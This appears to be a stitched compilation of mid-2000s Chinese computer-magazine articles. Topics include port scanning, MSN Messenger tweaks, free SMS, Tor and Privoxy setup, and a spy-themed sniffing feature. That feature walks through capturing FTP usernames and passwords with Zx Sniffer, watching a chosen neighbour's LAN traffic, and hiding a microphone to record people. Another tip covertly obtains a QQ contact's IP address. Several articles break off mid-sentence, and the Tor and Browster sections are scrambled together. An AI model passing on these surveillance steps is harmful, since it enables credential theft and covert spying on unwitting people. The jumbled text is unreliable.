大家可能担心:既然嗅探欺骗交换机，让本该发送到计算机B的数据包发送到了别的网卡中，那B岂不是收不到信息?实际上，一般嗅探器为了不被察觉，一般都采用了“两头骗”的策略，让他们发送给彼此的信息都经过嗅探器，这种欺骗方法在编程上很容易实现。

### “嗅探器”超级训练营

大致搞明白了嗅探器的来龙去脉后，我们再来实战吧。笔者将分多个任务来一一介绍嗅探究竟能够玩出什么名堂。

### 任务1:目标主机中究竟开放了哪些端口?

工具:SuperScan

任务目的:了解目标主机开放了哪些端口，以确定该主机正在开放的网络服务、安全性能，以及网卡MAC地址等等。

SuperScan小档案
| 项目 | 内容 |
| --- | --- |
| 软件版本 | 4.0 汉化版 |
| 软件大小 | 221KB |
| 软件性质 | 免费软件 |
| 运行平台 | Windows 2000/XP |
| 下载地址 | http://www4.skycn.com/soft/8061.html |

第一步:运行SuperScan后，切换到“扫描”标签，在“IP地址”栏的“主机名/IP”栏输入目标主机的IP地址，如果你没有明确的目标地址，那可以在“开始IP”和“结束IP”处设置一个IP地址范围(比如“开始IP”设置为“192.168.0.1”、“结束IP”设置为“192.168.0.96”，则表示扫描这97个IP地址所在的计算机。

> 小提示
对于有经验的黑客，他们一般都有自己最常扫描的端口列表，如21(FTP)、23(Telnet)、2001(用于冰河、cisco路由等入侵)、7306(用于netspy等入侵)等。该列表是一个ext文件，在“主机和服务扫描设置”标签的“UDP端口扫描”和“TCP端口扫描”栏分别单击“从文件读取端口”按钮，将这些常用的端口列表文件导入即可。

第二步:切换到“主机和服务扫描设置”标签，分别在“UDP端口扫描”和“TCP端口扫描”栏设置要扫描的端口范围。

> 小提示
默认情况下，SuperScan只扫描最常用的端口，扫描所需时间相对较少，如果在“主机和服务扫描设置”标签勾选“时间戳请求”、“地址掩码请求”、“信息请求”，那么扫描获得的信息会更明确，不过扫描时间会大大加长，而且容易引起主机的警觉。所以建议大家最好先在默认设置状态下扫描一次，筛选掉一些IP和端口后再进行详细扫描。

第三步:切换到“扫描”标签，单击“扫描”按钮即可开始扫描。扫描所需的时间视网络速度、端口范围大小以及被扫描的IP范围大小来决定。

> 小提示
第四步:扫描完毕后，单击“查看HTML结果”按钮，就能看到我们的劳动果实了。结果包括某计算机的IP、Hostname(主机名)、Netbios Name(Netbios名)、Workgroup/Domain(所在工作组或域名)，接下来就是该计算开放的端口号和相关信息了。此外，SuperScan所在目录还将生成一个名为scanlog.txt，其内容以“IP地址:端口类型:端口号”格式列出了扫描的结果。

### 任务2:目标主机有哪些用户、服务和盘符?

工具:SuperScan## 给MSN Messenger 7的联系人做美容

在最新的MSN Messenger 7.0版本中，当选中某个联系人时，该联系人昵称的字体就会变得非常难看，这实在影响大家使用MSN Messenger的心情。这个问题在早期版本的MSN Messenger中不存在，该如何解决呢？能不能自己随意定制联系人昵称的显示风格呢？

### 轻松解决好友昵称显示难看的问题

- Resource Hacker小档案
  - 软件版本: 3.4.0 汉化版
  - 软件大小: 514KB
  - 软件性质: 免费软件
  - 运行环境: Windows 9X/ME/2000/XP
  - 下载地址: http://download.pchome.net/development/reference/9668.html

要解决这个问题，需要借助Resource Hacker这款反汇编软件。

第一步：首先退出MSN Messenger，安装Resource Hacker完毕后运行，选择“文件→打开”菜单打开位于C:\Program Files\MSN Messenger目录的msnmsgr.exe文件。

```
emoticontext[id=atom(buddyname)]
{
    layoutpos: left;
    fontweight: normal;
    contentalign: bottomleft|endellipsis;
    padding: rect(0,0,0,0);
    richeditstyle: PlainText|HideSelection|DisableDrag|ReadOnly;
}
```

第二步：依次展开“UIFILE→936→1033”，这时候我们可以看到Resource Hacker窗口右边出现了该分支对应的一些定义代码。代码比较长，首先需要关注以下字段：

如果你对网页制作比较熟悉，那么你一定对这段代码不会太陌生，它有点类似于CSS代码。它的基本意义就是定义好友昵称的显示风格，比如“fontweight:normal;”表示定义字体轻重为“正常”。要解决“字体难看”的问题，我们只需要加入三行：foreground: windowtext; fontface: "Verdana"; fontsize: 9pt;

第三步：接下来还需要修改好友个性签名的显示风格和鼠标选中好友昵称后的显示风格。其中个性签名的显示风格是在“emoticontext[id=atom(idPSMText)]”字段中定义的，而鼠标选中好友昵称后的显示风格则是在“element[id=atom(itemname)][selected]”字段中定义的，修改的方法跟第二步中一样。

第四步：修改完毕后，按下“编译文件”，然后选择“文件→保存”菜单，重新登录MSN Messenger就可以看到效果了，字体变丑的问题解决了！

## 好友昵称风格，想怎么玩就怎么玩

昵称难看的问题倒是解决了，但能不能让这些昵称变成自己想要的风格呢？比如把昵称改成红色、斜体字、加粗、换成稀奇古怪的字体……答案是肯定的，而且修改方法跟前文中提到的一样。修改可能涉及到的三个情况：

- ★ "emoticoncontext [id=atom(buddyname)]" 字段用于定义好友昵称的显示风格
- ★ "emoticoncontext [id=atom(idPSMText)]" 字段用于定义好友个性签名的显示风格
- ★ "element [id=atom(itemname)] [selected]" 字段用于定义鼠标选中好友昵称后的显示风格

主要能够进行的定制如下：

- ★ "fontface: 字体名;" 表示定义字体，该字体需要我们的系统中已经安装
- ★ "fontsize: 9pt;" 表示定义字的大小
- ★ "foreground: ifhc(windowtext, black);" 表示定义字的颜色，我们可以将其中的"black"（黑色）修改为"blue"（蓝色）、"red"（红色）等

## 实例：修改好友的个性签名为红色显示

解决方法：在“emoticoncontext [id=atom(idPSMText)]”字段中加入下面一行“foreground: ifhc(windowtext, red);”，修改完毕保存退出即可。

## 小提示

利用Resource Hacker，我们还可以轻松去除MSN Messenger 7.0中的广告：首先依次展开“UIFILE→923→1033”，将右边窗口中的以下内容：

```
<element layoutpos=top layout=verticalflowlayout(0,2,2) padding=rect(2,0,3,2)>
```

修改为：

```
<element layoutpos=none layout=verticalflowlayout(0,2,2) padding=rect(2,0,3,2)>
```

最后保存退出即可。

## 将免费进行到底——免费短信排排座

对于“拇指一族”来说，他们有两个难题：一来长时间在狭小的手机键盘上编辑短信，实在太累了；二来短信虽然才区区1毛钱一条，但积少成多，每个月话费清单还是有点吓人。解决办法很简单——在网上发免费短信！不过鉴于网络陷阱实在太多，服务也参差不齐，笔者将网上流行的短信平台试了个遍，大家尽管可按图索骥，一“发”不可收拾。

“无限增加手机费”秘技暴露？！

最近，网上流传着一个“赚话费”的“超实用秘技”：该秘技提供了一个网址，让你去下一个手机铃声。然后退订，再订阅，再退两次。

订阅后先拨打1860，选人工服务，退掉手机所有服务，接着再订阅，然后第2次退订。发送短信“00000”至该服务的号码。这样，就会退你两次钱！一次消费，却退了两次钱！一次至少赚到好几块钱，多试验几次就能挣几百块！

面对这样的秘技，动心了吗？如果是，那你就很危险了！因为这是一些黑心短信服务商设下的陷阱！针对收费短信，中国移动有这样的规定：在第一次订阅后，72小时内退订不会收取任何费用；但在同一个月内，退订后第二次订阅将立即收费。一些奸商就是利用这条规定，编造了所谓“无限增加手机费”的秘技。

尽管网上骗子不少，但网络一直是一个免费的平台，在里面还是能找到免费的机会。

### No.1: 功能强大——M2P 免费短信平台

推荐理由：可以不用手机号码注册，发送成功率很高，对方收到短信后可以回复到电脑，而且同时支持移动和联通两个平台。

致命弱点：对非手机注册用户只有5条免费短信发送权利。

使用点拨：首先到http://www.m2p.com.cn/download.asp注册一个账号，你的注册邮箱中会收到一个六位数的激活码，填入后即可获得一个M2P号码和登录密码。接下来到http://www.m2p.com.cn/download.asp下载安装M2P个人无线信息平台，登录后切换到“短信聊天”标签即可发送短信。你可以发送TMB2F8375114到1510（移动用户）或者9510（联通用户）申请成为M2P的会员，会员每个月收取5元的包月费，可以免费发送50条短信，如果超过50条则按0.1元/条计费。

### No.2: 注册简单——飞网传信免费短信

推荐理由：注册非常简单，只需要访问http://www.3322.com.cn/reg2.asp，输入手机号码，填入手机收到的验证码即可注册成功，支持移动和联通两个平台，发送成功率很高。

致命弱点：赠送的免费短信用完后要想继续使用必须付出劳动。

使用点拨：注册后可以免费发送50条短信，用完之后只能用飞网论坛（地址：http://www.3322.com.cn/bbs/index.asp）的积分来换取短信。至于如何增加你的论坛积分，那就要靠你在论坛上的发帖回帖了。

### No.3: 全球通用——Free SMS

推荐理由：能给全球任何手机号码发送免费短信，对中国移动用户支持移动、联通两个平台。

## 用插件——搜索再省一步

在浏览器中使用各种搜索引擎的时候，在一长串搜索结果中发现了感兴趣的链接，查看时必须打开新窗口，如果打开窗口很多就会很麻烦，而且占用很多资源。最近，笔者发现了一个IE小插件，通过它可以减少搜索信息的步骤，用户可以在不打开搜索结果新页面的前提下提前预览搜索页面内容，浏览速度非常快。

| 项目 | 内容 |
| --- | --- |
| 软件版本 | v1.0 |
| 软件大小 | 596 KB |
| 软件性质 | 免费软件 |
| 运行平台 | Windows 98/2000/NT/XP/2003 |
| 下载地址 | http://www.browster.com/Browster.exe |

## 给浏览器装个“望远镜”

Browster可以在打开网页前快速浏览网页，这是如何实现的呢？它使用了一项叫做“预取”即时网页的专利技术，该技术能在原始搜索页面上用很短的时间打开一个新窗口，并显示拷贝的网页内容。使用此插件也非常简单，首先下载、安装完毕后开启IE，打开http://www.google.com，输入要搜索的信息——例如“电脑爱好者”，在搜索结果页面中你就会看到：每个搜索结果前添加了一个“闪电”的图标。将鼠标放在该图标上，立刻显示出链接对应的页面信息了，省去了在新窗口点开链接的操作，使搜索信息的步骤省了一大步！

### 小提示

- ★ 当预览完毕后，只要将鼠标从预览窗口中移开，预览窗口就会自动关闭，不会影响你的操作。
- ★ 安装该插件后，在搜索结果中图标会有三种：明亮的闪电图标表示该页面可以通过插件预览，灰色的闪电图标表示该页面正在通过Browster插件生成预览页面信息，而红色警告图标则说明该页面无法通过Browster插件生成预览，通常主要原因是该页面无法打开或网站已经关闭。

## 极限“压缩”浏览数据

在Browster插件预览窗口中的上方，有一排操作按钮，它们可以让我们方便地浏览所有搜索结果。按钮从左往右依次为“Next（快速浏览下一个搜索结果的页面）”，“Previous（快速浏览上一个搜索结果的页面）”，“Options（参数设置）”。通过“Next”和“Previous”按钮，可以在搜索结果中快速查找和切换。在Options设置中，如果将“Prefetching”前的对钩去掉，则会关闭该插件的快速预览功能，恢复到原来的IE；将Lock browster前打钩则会锁定预览界面，这样即使鼠标离开预览区域也不会马上关闭预览界面了。

## Tor网络的“独行忍者”

这年头，网友追踪IP、黑客嗅探、单位监控上网行为、ISP封杀网站，几乎每个网民都会遇到这样的烦心事。日本电影里的忍者大都是行为诡秘，常常出没于一阵青烟之后。如果我们上网时能跟忍者一样“神不知，鬼不觉”，那就太好了。

Tor（The Onion Router）正是一款能满足这个要求的工具，通过它我们可以有效和安全地访问互联网，因为它自我标榜为“An anonymous Internet communication system”（一个匿名的互联网通讯系统）。

### Tor小档案

- 软件版本：0.1.1.2-alpha
- 软件大小：932KB
- 软件性质：免费软件
- 运行环境：Windows 9X/ME/2000/XP
- 下载地址：http://tor.eff.org/dist/win32/tor-0.1.1.2-alpha-win32.exe

### 小知识

Tor是怎样工作的？
当我们在使用各种网络工具访问互联网时，Tor会在Tor服务器群中随机挑选几台来作为我们访问的中转站，这样我们访问的站点只能追踪到这些Tor服务器，从而达到了安全冲浪的目的（见图1）。

对于其他支持HTTP代理的软件，比如MSN Messenger、QQ、FlashGet、Maxthon等，都可以作类似的设置，以达到安全访问网络的目的。

### 实例2：让支持SOCKS代理的软件匿名访问网络

在实例1中笔者介绍了如何利用Tor + Privoxy来实现网页的绝对安全浏览，那么对于其他网络服务呢？比如不支持HTTP代理，只支持SOCKS代理协议的。方法很简单：
同样首先安装Privoxy并作跟实例1中的同样设置，设置完毕后在这些访问网络并支持Socks代理协议的代理设置中，将“地址”设置为“Localhost”（或者“127.0.0.1”），而“端口”则设置为“9050”。
支持Socks代理协议的常用程序比较多，比如QQ、MSN Messenger、FlashFXP、FTPRush、FlashGet等。

## 上网就像开假面舞会

多数朋友都听过或用过代理服务器吧？Tor的原理跟代理服务器有些类似，它也是借助互联网上的Tor分布式服务器集群来间接访问互联网，从而达到伪装自己的目的。不过Tor有许多代理服务器没有的优点：
★ 代理服务器如果停止服务或连接失败，我们只能寻找新的代理。Tor不会出现这个问题，如果你连接的某台Tor服务器出现问题，Tor会自动搜索并使用其他Tor服务器帮你连接到Internet，而这一切你都不用去关心。
★ 代理服务器只能为你提供一层保护，也就是说你和你访问的站点之间只存在一个代理服务器。而Tor则可以根据速度和安全性综合分析，动态变化，提供多个保护层（通常为2～5个），这样你的浏览更加不易被追踪。
★ 代理服务器可以分为HTTP、SOCKS等类型，一般一个代理服务器只支持HTTP或SOCKS协议。而Tor则不受协议的限制，通过它和相关软件的配合，可以同时支持HTTP、SOCKS。



### 小提示

测试一下自己是否匿名成功
配置完Tor之后，大家可以先看看自己是否伪装成功：首先运行“CMD”命令打开命令提示符界面，输入“ipconfig /all”命令查看自己当前的IP地址。接下来打开http://www.showmyip.com，这时候你可以在页面的顶部看到该站点检测到的IP地址，将它与你刚才查看到的自己当前的IP地址对照一下，如果一样，则伪装失败；如果不一样，则说明伪装成功。

## 让Tor在后台运行

Tor好用是比较好用，不过有个问题：每次我们要使用它的时候都需要运行它，而且老有一个窗口要开着，能不能让它默默工作呢？
第一步：首先将C:\Documents and Settings\用户名\Application Data\Tor\torrc文件拷贝到你的Tor安装目录下。
第二步：运行“CMD”命令打开命令提示符界面，进入Tor所在目录，运行“tor -install”命令即可。这时候tor会在我们的系统服务中添加一个名为“Tor Win32 Service”的系统服务（见图3），并且处于自动打开状态。

口。另外，还可以使用Browster浏览搜索出来的PDF格式信息，能够提前预览的前提是本机已安装了能够打开PDF文件的软件。
★ 如果希望临时取消Browster的功能，可以采用两种方法：在搜索结果链接上点鼠标右键选择“Browster prefetch on/off”或者在Browster预览窗口里的Options设置中将Prefetching前的对钩去掉，你的浏览器就会还原回本来面目。

## 突破限制 “快取”所有网页

默认情况下，Browster插件只支持Google等少数几个搜索引擎，其实我们可以通过简单的设置让其支持任何搜索站点，甚至是任意一个页面链接都使用插件快速预览。
第一步：打开希望让插件支持的页面，我们以电脑爱好者的官方网站www.cfan.com.cn为例。
第二步：将鼠标移动到我们希望通过插件预览的“超链接”上，在移动前按住键盘的ALT键不放，这样鼠标划到目的地就会自动用Browster插件打开该超链接。
第三步：用Browster浏览过某链接后，就会在该链接前添加“闪电”图标，以后再次预览的时候访问速度会变得更快。

## 将我变身为“网络忍者”

要使用Tor提供的服务，我们首先必须下载安装它，安装完毕后系统弹出一个命令提示符窗口，当提示“Tor has successfully opened a circuit. looks like it's working.”时，表示Tor已经安装完毕并正常运行。下面笔者通过几个实例来介绍一下如何使用Tor来伪装自己。

### 实例1：让网页浏览“来无影，去无踪”

要让网页浏览达到最高限度的安全，可以用一款名为Privoxy的软件来配合Tor实现，其设置方法如下：
第一步：到 http://cikkit.dl.sourceforge.net/sourceforge/ijbswa/privoxy_setup_3_0_3-2.exe 下载并安装一款名为Privoxy的代理服务器软件，它可以和Tor协同工作。安装完毕后依次运行“开始→程序→Privoxy→Edit Config→Main Configuration”，在打开的文本文件中第一行里输入以下内容（占用一行，见图2）：
forward-socks4a / localhost:9050 .



### 小提示

将鼠标移动到任何一个链接上，稍等片刻，就会在链接上方出现一个小图片，鼠标移过去就会出现预览窗口啦！

### 你知道吗？

Browster默认支持的网站
1. Google（中英文）、雅虎（英文）、MSN（英文）等搜索网站
2. 易趣（http://www.ebay.com.cn）及亚马逊等电子商务网站，这特别有助于在茫茫的网站中找到喜欢的商品。
3. 其他能被搜索到内容的网站，比如像Craigslist、Bloglines、Newsgroups等站点，对于默认不支持的站点只能通过上文介绍的技巧来突破了。目前Browster仅对IE起作用，喜欢使用第三方浏览器的朋友还需要耐心等待。



### 小提示

如果你想取消它的自动运行，可以打开命令提示符界面，进入Tor所在目录，运行“tor -remove”命令。

### 小提示

Privoxy会记录所有与你网络访问情况有关的日志信息，你可以按下Ctrl + F键，分别以“logfile privoxy.log”和“jarfile jar.log”为关键字进行搜索，在找到的结果那一行的最开头加上一个“#”（该符号表示该行字符为注释信息，不予执行），这样Privoxy就不会记录这些信息了。
第二步：编辑完毕后，保存该文本文件并重新启动Privoxy。接下来打开IE浏览器，选择“工具→Internet 选项”，切换到“连接”标签，单击“为LAN使用代理服务器”，在“地址”栏中输入“localhost”（或者“127.0.0.1”），在“端口”栏中输入“8118”，确认后即可。

（四川 山村野菇）

## 妙取QQ好友的IP信息

有些朋友喜欢使用珊瑚虫QQ外挂，其主要工作是可以获取好友的IP和相关信息，信息一般显示在窗口的右上角。通常情况下，必须和对方聊天之后才可以得到的IP地址。但是，我们想知道对方IP的时候往往是隐秘的状态下，不想让对方知道自己存在，这时该怎么获得IP呢？现在送给大家一个方法，可以不必发送信息就能得到IP。首先，在你要查询的网友头像上点击鼠标右键，在菜单中选择“浏览共享文件”，这时会出现共享文件的界面。等待大概10秒，在查看你就可以得到他的IP地址了，打开收发讯息窗口，你就可以看到以前的“对方在线，但不能获取对方IP”已经替换为你想要的IP信息了。

（北京 黄岩）

（日月双星）

# 特工必备——窃听器

自从上期汤姆·汉克斯主演的《碟中谍3！网络上演不可能的任务》在《电脑爱好者》超前首映后，大批观众蜂拥而至，这使得长期主演007系列电影的皮尔斯·布鲁斯南相当不爽，所以决定再次接拍最新版本的007电影。本期我们将提前把剧本情节透露出来，以飨读者。

-   ★如果用户ID和密码以明文传送；嗅探器能够通过拦截数据包来直接截获，如果ID和密码以暗文传送，则嗅探器为进一步破译提供基础信息。当然，能被拦截的信息还有很多，几乎所有数据都可以被拦截和窃取，只不过有时还需要配合解密等操作方可达到最终目的。
-   ★窥探低级的协议信息。比如记录两台主机之间的网络接口地址、远程网络接口IP地址、路由信息和TCP连接的字节顺序号码等，这些信息为黑客的下一步行动提供重要参考。

# 你知道吗

-   007秘密武器到底有多少?
-   ★带钩子的弹射绳、磁铁腕表——《黄金眼》、《明日帝国》、《黑日危机》
-   ★内有喷火器和手枪的苏格兰风笛——《黑日危机》
-   ★钢笔形榴弹——《黄金眼》
-   ★用指模辨认的手枪形摄像机——《铁金刚勇战杀人狂魔》
-   ★带有火线发射器的阿斯顿·马丁V8、放射橡胶子弹和睡眠气体的钥匙扣——《铁金刚勇破特务飞龙》
-   ★藏在剃须刀内的窃听器——《铁金刚勇战大狂魔》
-   ★火箭发射摄影——《铁金刚大战金枪客》

# 网络007的三大制胜利器

# 任务1：窃取FTP本地登录密码

工具：Zx Sniffer
任务目的：用嗅探器来窃取FTP客户端包含的FTP登录密码，理解嗅探和键盘记录木马之间的区别。
Zx Sniffer能监听本地软件对网络中指定端口的访问，截取连接该端口的数据包并分析以获得其中的用户ID和密码信息。以FTP为例，对于FTP服务器来讲，一般默认端口是21，不过有些服务器的端口并不是（理论上可以设置成1~65535之间的任何端口号）。

**Zx Sniffer小档案**
| 项目 | 内容 |
|---|---|
| 软件版本 | 4.22 |
| 软件大小 | 278KB |
| 软件性质 | 免费软件 |
| 运行平台 | Windows 9x/ME/2000/XP |
| 下载地址 | http://soft.backbase.com/view.asp?id=20040323zxsniffer.zip |

-   第一步：首先确定本地用户登录的某个FTP服务器使用的端口号。接下来安装并运行Zx Sniffer，单击“Options”标签，在打开的窗口中切换到“Password”标签。
-   第二步：在“FTP”栏处单击“Edit”按钮，将这个FTP服务器使用的端口号填写进去，单击“Add”，再单击“OK”，这时候我们可以看到Zx Sniffer监听的FTP协议多出了刚刚添加的那个端口号了。
-   第三步：当本地用户使用FTP客户端软件连接该FTP服务器时，Zx Sniffer马上就可以监听并显示出该FTP服务器的登录用户名和登录密码了。我们可以在Zx Sniffer的“Password”标签中看到，其中包括“Protocol”（协议，Zx Sniffer支持POP3、FTP、ICQ 9x ICQ 200x Proxy等多种协议）、“Source address”（本机IP地址）、“Dest address”（连接主机IP地址）、“Login”（登录用户名）、“Password”（登录密码）、“Date Time”（日期和时间）。

> 小提示
嗅探和键盘记录木马之间有什么区别？
大家一定知道有些键盘记录软件可以在我们输入密码的时候将密码偷偷地记下来，然后通过邮件或者别的方式发送出去，以达到盗窃账户的目的。本任务中嗅探也达到了同样的效果，但两者从原理上来讲有本质区别：键盘记录软件是读取了我们敲击键盘产生的中断信息，并将其还原成对应字符，而嗅探则是在本地机连接远程主机的过程中，通过截获相关的数据包并还原成对应的字符信息。

# 任务2：隔壁老王都干了些什么

电脑联入局域网之后，访问其他电脑该使用什么工具？大多数人会使用网上邻居。但你的网上邻居都在安分守己吗？你可知道，你的邻居很可能就在几十米之外，用他的电脑监视着你的一举一动！
工具：EtherDetect Packet Sniffer
任务目的：获取网络邻居中其他电脑发送接受的信息。

**EtherDetect Packet Sniffer小档案**
| 项目 | 内容 |
|---|---|
| 软件版本 | 1.2 |
| 软件大小 | 0.98MB |
| 软件性质 | 免费软件 |
| 运行平台 | Windows 9X/ME/2000/XP |
| 下载地址 | http://www.onlinedown.net/soft/41237.htm |

-   第一步：安装了EtherDetect Packet Sniffer后，在主窗口单击“选择网络适配器”按钮，在弹出窗口中选择你正在使用的网卡，然后按下“确定”。
-   第二步：在主界面中按下“开始”按钮，开始监控网络中的数据，当看到来自你关注的IP地址发出了信息，你可以在左侧窗口中选中该条信息，然后在右侧窗口中选择对应的时间，就能在下方看到数据信息了（见图）。你可能会注意到，数据信息是无法被识别出来的乱码？如何识别它们呢？其实这是由专用工具来分析的，不过这已经涉及到了黑客攻击知识，在此就先不介绍了，感兴趣的读者可以用“嗅探器分析”作关键字在网上搜索，会找到不少教程的。



> 小提示
你可能只需要监视来自某一IP地址的电脑，这可以通过设置来完成。在主界面按下“配置”按钮，然后按“添加”，选择“指定IP”，输入指定的IP地址，确定后在菜单中选择“放弃所有不符合任何过滤的数据包”，最后按下“确定”即可。

# 任务3：做个真正的窃听器

前面介绍的“网络监听”都是监听网络中的数据，能不能借助电脑监听真正的声音呢？当然可以！本刊上期介绍过的Scanner Recorder就是一个好的窃听工具，只要再花费一点，我们就能做个电脑窃听器了。

-   第一步：到电脑市场买一个小型的麦克风，为了便于隐藏，所以要小巧一点的。如果十分追求音质，可以购买DV专用的小型麦克风。
-   第二步：双击系统托盘处的声音图标，在弹出窗口中取消“麦克风”项中的“静音”，并拖动滑块调整到中间的位置。
-   第三步：将麦克风插入机箱后面对应的插孔（一般是红色或粉色），然后按照本刊上期《碟中谍3！网络上演不可能的任务》一文中介绍的Scanner Recorder录音吧！由于这个软件利用嗅探原理设计，它可以让声卡中存在声音流时开始录音，而不存在声音流时暂停录音，所以节省了大量的硬盘空间，给你充足的时间录音。

> 小提示
只要你把麦克风妥善隐藏好，就可以让它在你离开的时候偷偷录音啦。不过提醒你，录音只是好玩，可不要用于偷窥隐私的用途，不然可就成非法的啦！

# 全面掌握反间谍工具

看到这里，身处网络的你是不是已经手心发汗、心跳加速，对网络安全状况相当不放心呢？是不是觉得你的每一步操作都在被人窥视？其实也不必如此，所谓魔高一尺，道高一丈，天下有锋利的矛就一定会有坚固的盾。这里给你推荐几种“反间谍”专用招数。

# 1. “交换”比“集线”安全

局域网中的连接装置一般有两种：集线器和交换机。集线器就好像把所有同学放到一个大教室里，每个人说的话其他人都能听到；而交换机就像教室里面分了很多小的隔间，两人之间的谈话其他人无法听到。因此，相对集线器，交换机连接的电脑就更加安全。如果你处于一个30人以上的局域网中，相信网管一定用交换机布置了网络。但是，有时因为端口不够，很可能用集线器扩展了网络，于是安全漏洞就又出现了。在查找安全漏洞之前，先看看桌下的设备吧！

-   ★对于现在市场上的可管理的交换机，其实也还是有被窃听的可能，但是只有连接到指定端口的电脑才有可能窃听，而这台电脑往往是网管掌管；所以通常情况下还是安全的。
-   ★有关更多交换机、集线器的知识，请参看本刊《告别“通讯基本靠吼”的时代——集线器、交换机、路由器的对话》一文。

# 2. 把文字变成“恺撒密码”

在恺撒大帝时代，在军事上曾经使用过一种称为ROT13的密码，又称“恺撒密码”（Caesar Password）。它的原理十分简单，ROT的含义就是“Rotate 13 places”（将字母移动13个位置），这样一来，字母A就变成了N，B变成了M……这种古董级的加密方式虽然简单，但是用来解决我们一般的安全问题足够了。

-   第一步：登录http://www.rot13.com，在窗口中的对话框中输入要转化的文字（必须是英文），比如“Can you read this?”，然后按下“Cyber”按钮，你会发现字母已经发生了彻底的变化。
-   第二步：将密文复制下来，发给对方，对方只要在此登录这个网站，将密文复制进去，再按“Cyber”按钮，就能看到原始文字了。

上面的方法有很大的问题：如果已经被他人监视，那么使用网上转换密文的过程也会被监视到，那么密文就算不上密文了。怎么办？很简单，只要下载一个软件就可以了。到http://www.newhua.com/cfan/200517/rot13.zip下载文件，解压缩后运行其中的文件，在上方的窗口输入文字，下方窗口中的内容就是加密的文字，复制使用即可。恢复的时候只要把密文复制到上方窗口，下方就是可以读懂的文字了，与http://www.rot13.com中的加密方式完全一致。

如果你觉得 ROT13 太小儿科，那么可以试验一下强力加密工具 —— PGP，它是使用公钥和私钥方式加密，可以十分安全地传递信息。推荐使用的软件是 PGP (下载地址: http://www.pgp.com/downloads/desktoptrial.html)，这类软件的使用方法已有很多媒体介绍，这里就不再赘述了。

间谍偷不到数据信息，就会想到更为狠毒的招数 —— 直接偷电脑。如果你藏有重要数据的笔记本电脑被人偷走了，那损失可就太大了。如果电脑主机落入黑客手中，再强的防火墙或加密手段也无济于事了。为了预防这种情况，你需要在电脑中安插一个 “卧底”，在需要的时候让他显身。

**Advatrack Pro小档案**
| 项目 | 内容 |
|---|---|
| 软件版本 | 1.2 |
| 软件大小 | 333KB |
| 软件性质 | 共享软件 |
| 运行平台 | Windows 9x/ME/2000/XP |
| 下载地址 | http://www.absolute-protect.com/ZIP/AdvatrackPro.exe |
| 软件备注 | 7天免费试用，此后需要付费使用。 |

Advatrack Pro 在安装的时候会把自己伪装成为一个系统进程，名称和安装位置由你自己决定，总之越隐蔽越好。安装后，每隔23小时软件会自动收集当前的 IP 地址信息，然后将它发送到你指定的邮箱。如果真有一天你的电脑惨遭敌手，只要对方使用这台电脑上网，该软件自会自动收集 IP 地址等信息返回 Absolute Protect 公司。这样，你可以登录该公司的 http://www.absolute-protect.com 网站，在网页上单击红色的 “Report a theft”(窃贼报告)按钮，依次填入注册用户名、电子邮件、丢失的时间、报案的警署、警察的电话等等。然后将此报告发送到 Absolute Protect 公司。如果是注册用户，Absolute Protect 公司会将收集到此电脑的信息发送给你，我们就可以依据这些信息来抓获窃贼了！对于一般用户来讲，这软件的意义可能一般，但是对于装有重要机密的特工来说，它可能是最后的救命稻草呀！

(LX)

# 免费口语外教请回家

你是如何提高你的英文口语能力的呢？整天拿着英文课本 “哇啦哇啦” 地读？还是跟你的外教来一个一对一的交流？如果你的口语很差，可能话到嘴边也不敢说出口吧？没关系，现在你只需要打开 Skype，不管你的口语有多菜或者有多牛，你都可以得到提高！

**Skype小档案**
| 项目 | 内容 |
|---|---|
| 软件版本 | 1.3 |
| 软件大小 | 7373KB |
| 软件性质 | 免费软件 |
| 运行平台 | Windows 9x/ME/2000/XP |
| 下载地址 | http://www.skype.com/go/getskype |

# 注册 Skype 用户账号

除了安装官方版本的 Skype 外，你也可以安装 Skype 和 Tom 合作推出的中文版 Skype —— Tom - Skype（其下载地址为: http://skypetools.tom.com/download/download.php?flag=0&s=tom_dl）。

-   第一步：以 Tom - Skype 为例，安装完毕后运行，在弹出的 “创建账号” 窗口中切换到 “我想创建一个新的 Skype 账户” 标签，输入用户名和密码进行注册。
-   第二步：注册完毕后登录，登录后确保你的 TOM - Skype 处于 “联机” 状态。

# 注册成为 jyve.com 的用户

-   获得 Skype 账号后，接下来要注册成为 jyve.com 的用户：
    -   第一步：打开其注册链接 http://community.jyve.com/pre_registration.php，勾选 “I have a Skype Username.” 一项，单击 “Register Now!” 按钮，在打开的页面中 “Skype Username” 栏中填写你的 Skype 账号，单击 “Submit” 按钮。
    -   第二步：接下来需要填写申请表格，其中 “Jyve UserName”、“Display Name”、“Alternate email” 分别填写注册名、显示名称、激活邮箱地址。填写完毕后勾选 “Read Terms And Condition Term of Use”，单击 “Next”。
    -   第三步：接下来你必须选择一个你爱好的内容，比如 “Entertainment & Music”(娱乐和音乐)，接下来任意勾选打开页面中的一项后单击 “Back” 按钮，单击 “Finished” 按钮。
    -   第四步：接下来页面要求你下载 Jyve’s Skype Web Plugin，这是该站点提供的 Skype 插件，我们暂时不必下载，直接单击 “Next” 完成注册。注册完毕后你将获得一个形如 user@jyve.com 的用户名和登录密码。

# 用 Skype+Jyve.com 来练习口语

-   第一步：打开 http://community.jyve.com/do_login.php?redirect=lang_learning，用刚才注册的 Jyve 账号登录。登录后页面会首先要求你做一些设置，在 “I am Fluent in”(我能流畅地运用)栏中选择你擅长的语言，当然这里我们选择 “Chinese”，单击 “Add”，并分别在 “I would like to practice” 和 “I would like to learn” 中选择你想要练习的语种，比如 “English”。设置完毕后单击 “save” 按钮保存设置。
-   第二步：接下来要设置你对所选择语种的熟练程度。这里粗略设置了 None(一无所知)、Beginner(初学者)、Intermediate(中等水平)、Advance(高水平)四个等级，细分为10级。对于 “Chinese” 来说，我们当然选择 “10”(最熟练)，对于你想学习提高的语种则根据你的实际情况进行设置。其中 “1” 代表一无所知，建议有一定基础的朋友选择 “2～4”。设置完毕后单击 “Next”。
-   第三步：这时候你将看到所有符合你设置条件的网友列表，选择一个，点击该网友旁边的 “Skype Me” 按钮，待其允许后，即可与他/她进行语音聊天了。

> 小提示
Jyve.com’s Skype Web Plugin 插件除了辅助我们使用 Jyve.com 提供的各种服务以外，还具有自动应答等 Skype 的辅助功能，我们需要在其主界面中单击 “Advanced OFF” 按钮，切换到 “Auto Responder” 标签中进行设置。
比如我们可以勾选 “Turn on Auto Responder” 和 “Auto Respond to Calls”，那么当我们设置 Skype 为离开状态时，如果有人请求与我们语音对话，我们的 Skype 会自动发送一条信息 “I am currently away from my computer, I will return your call” 文字信息给对方。

# 用 Skype 学口语的经验之谈

在笔者使用 Jyve.com+Skype 来学习口语的过程中，积累了一些经验，希望对大家有所帮助：

